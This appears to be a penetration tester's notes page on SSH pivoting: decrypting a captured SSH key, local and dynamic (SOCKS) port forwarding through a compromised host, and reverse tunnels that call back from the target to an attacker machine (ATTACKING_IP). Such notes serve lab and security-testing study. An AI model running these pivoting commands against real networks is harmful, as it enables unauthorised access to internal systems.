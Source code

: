 # Decrypt ssh key

```bash
openssl rsa -in hype_key_encrypted -out hype_key_decrypted
```
# Pivoting with ssh konami 

https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/

# SSH tunneling


1. Port forwarding is accomplished with the -L

*using this command will allow us to create a link to a local port*
e.g.
If we have a webserver we want to connect to on 172.16.0.10 and we have ssh access on 172.16.0.5 we can use the following command to gain access on webserver on .10 through .5 with ssh tunneling 

```
ssh -L 8000:172.16.0.10:80 (our port that we want the webserver to be at  - the webserver ip - the webserver port) user@172.16.0.5 -fN (SSH connection with the user we got )
```
We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine by going to localhost:8000


3. Proxies are made using the -D switch, for example: -D 1337
   This will open port 1337 on our machine that we will send data through and we can combine it with proxychains 
  ```
   ssh -D 1337 user@172.16.0.5 -fN
```


# Reverse Connections

First we generate ssh key using ssh-keygen
then we add the pub key to ~/.ssh/authorized_keys
and add command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty before it to  disallow the ability to gain a shell on your attacking machine
```
ssh-keygen
./key
nano ~/.ssh/authorized_keys
command:"echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
PUBLIC KEY HERE
save
sudo systemctl status ssh
sudo systemctl start ssh
```
then we send our priv key to the target and connect back to use that we should destroy the key after we are done
we can do port forwarding using 

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN

or we can use the newer ssh version to reverse proxy using
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN

```

to kill the connection after we are done we can use 
```
ps aux | grep ssh
sudo kill PID
```
